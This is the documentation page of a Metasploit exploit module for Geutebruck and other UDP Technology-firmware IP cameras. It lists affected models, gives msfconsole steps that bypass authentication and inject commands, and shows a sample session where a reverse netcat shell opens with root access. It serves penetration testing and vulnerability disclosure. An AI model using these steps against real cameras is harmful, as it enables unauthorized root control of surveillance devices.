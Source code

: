 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module bypasses authentication and exploits multiple authenticated arbitrary command execution
vulnerabilities within the parameters of various pages on Geutebruck G-Cam EEC-2xxx and G-Code EBC-21xx, EFD-22xx,
ETHC-22xx, and EWPC-22xx devices running firmware versions <= 1.12.0.27 as well as firmware
versions 1.12.13.2 and 1.12.14.5. Successful exploitation results in remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page
at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch `msfconsole`
  3. Do: `use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell as the `root` user.

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > exploit
[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd
/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```
